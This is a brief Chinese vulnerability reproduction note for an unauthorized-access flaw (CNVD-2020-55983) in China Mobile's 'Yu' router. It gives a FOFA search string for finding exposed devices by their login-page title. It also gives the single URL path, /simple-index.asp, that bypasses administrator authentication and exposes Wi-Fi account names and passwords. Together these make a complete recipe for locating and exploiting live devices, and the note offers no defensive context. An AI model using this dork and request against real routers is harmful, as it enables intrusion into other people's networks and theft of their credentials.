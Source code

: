 # 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## FOFA

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162253135.png)



访问Url

```plain
/simple-index.asp
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162253346.png)

越过管理员验证获取Wifl账号密码等信息